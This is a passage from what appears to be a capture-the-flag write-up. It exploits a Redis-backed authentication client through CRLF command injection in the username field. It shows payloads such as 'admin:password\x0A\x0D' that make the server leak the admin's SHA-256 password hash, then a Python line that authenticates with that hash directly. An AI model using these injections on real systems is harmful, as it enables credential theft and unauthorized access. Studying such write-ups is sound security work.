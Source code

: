 We notice the prefix `:name` which have been interpreted as a second command.

### Command injection

We try to inject [Redis commands](http://redis.io/commands) like `INFO` by
replacing the username with `admin\x0A\x0DINFO\x0A\x0D`:

    spl3en@box:~$ python SecureAuthClient.py
    [~] Server sent challenge : JrLFTYYrDxYibypIBzkdmALAzDCoYe9olBMEZ2OXEDuqsrFFISLzLhWMkeFOdRCB !
    [+] Auth data : AUTH admin
    INFO
    |30247cdea2397657332d6f35b4c2a4340b83e3a842a17119704f31185a41cbe3
    [~] Sending auth packet...
    [+] Welcome -ERR unknown command 'INFO' we are verifying your password...

    [-] Bad password or authentification error... !

The `INFO` commend is not recognize. After several tests, we see that all
commands but `GET` seems filtrated. We suppose that the one used to get the
username and the password in the NoSQL database. With 

The requests on the server should be something like:

    username = GET <user>:name
    password = GET <user>:password

We try to inject `admin:password\x0A\x0D` in the username, that will give us:

    username = GET admin:password\x0A\x0D:name
    password = GET admin:password\x0A\x0D:password

(The name and password at the end of each line would not be interpreted).

We execute the program with `admin:password\x0A\x0D` as a username:

    spl3en@box:~$ python SecureAuthClient.py
    [~] Server sent challenge : DsHn1UJH7LjPSpVOIuZwh7QUgEZ1qGXnK8sHxBYnSTsaWNdVYDvHG5UCPTrvL2AJ !
    [+] Auth data : AUTH admin:password
    |606611cc808eabd5e38bed8e21360b52127f3e2cecbf02413c3da90fa43c71a3
    [~] Sending auth packet...
    [+] Welcome 837a135ad3ccb1978f169aa62a62a028b76ec42b2284791bd4703421ec050529 we are verifying your password...

    [-] Bad password or authentification error... !

As excepted the server show us the username that we replace by its hashed
password. We get the `sha256(admin_passwd)`:
`837a135ad3ccb1978f169aa62a62a028b76ec42b2284791bd4703421ec050529`.

We replace the corresponding python code to directly send the hash:

    :::python
    packet = "AUTH %s|%s" % (username, sha256(sha256(authtoken).hexdigest() + challenge).hexdigest())

Become:

    :::python
    packet = "AUTH %s|%s" % (username, sha256("837a135ad3ccb1978f169aa62a62a028b76ec42b2284791bd4703421ec050529" + challenge).hexdigest())
